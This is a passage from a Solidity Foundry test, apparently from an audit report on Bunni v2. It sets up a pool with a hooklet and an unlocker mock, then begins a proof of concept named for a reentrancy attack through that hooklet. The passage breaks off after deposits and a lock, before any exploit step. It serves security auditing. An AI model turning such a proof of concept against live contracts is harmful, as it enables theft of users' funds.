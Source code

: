 ```solidity
            weth.transfer(address(bob), 100 ether);
        } else {
            deal(Currency.unwrap(currency0), address(hooklet), 100 ether);
            deal(Currency.unwrap(currency0), address(bob), 100 ether);
        }

        if (Currency.unwrap(currency1) == address(weth)) {
            vm.deal(address(this), 200 ether);
            weth.deposit{value: 200 ether}();
            weth.transfer(address(hooklet), 100 ether);
            weth.transfer(address(bob), 100 ether);
        } else {
            deal(Currency.unwrap(currency1), address(hooklet), 100 ether);
            deal(Currency.unwrap(currency1), address(bob), 100 ether);
        }

        (bunniToken, key) = hub.deployBunniToken(
            IBunniHub.DeployBunniTokenParams({
                currency0: currency0,
                currency1: currency1,
                tickSpacing: 10,
                twapSecondsAgo: 7 days,
                liquidityDensityFunction: ldf,
                hooklet: IHooklet(address(hooklet)),
                ldfType: LDFType.DYNAMIC_AND_STATEFUL,
                ldfParams: ldfParams,
                hooks: bunniHook,
                hookParams: hookParams,
                vault0: ERC4626(address(0)),
                vault1: ERC4626(address(0)),
                minRawTokenRatio0: 0.08e6,
                targetRawTokenRatio0: 0.1e6,
                maxRawTokenRatio0: 0.12e6,
                minRawTokenRatio1: 0.08e6,
                targetRawTokenRatio1: 0.1e6,
                maxRawTokenRatio1: 0.12e6,
                sqrtPriceX96: uint160(Q96),
                name: "BunniToken",
                symbol: "BUNNI",
                owner: address(this),
                metadataURI: "",
                salt: bytes32(0)
            })
        );

        poolManager.setOperator(address(bunniToken), true);

        unlocker = new ERC20UnlockerMock(IERC20Lockable(address(bunniToken)));
        vm.label(address(unlocker), "unlocker");
        User(bob).updateUnlocker(address(unlocker));
    }

    function test_PoCUnlockerReentrantHooklet() external {
        uint256 amountAlice = _makeDeposit(key, 1 ether, 1 ether, alice, refA);
        uint256 amountBob = _makeDeposit(key, 1 ether, 1 ether, bob, refB);

        // lock account as `bob`
        vm.prank(bob);
        bunniToken.lock(unlocker, "");
        assertTrue(bunniToken.isLocked(bob), "isLocked returned false");
        assertEq(address(bunniToken.unlockerOf(bob)), address(unlocker), "unlocker incorrect");
        assertEq(unlocker.lockedBalances(bob), amountBob, "locked balance incorrect");

```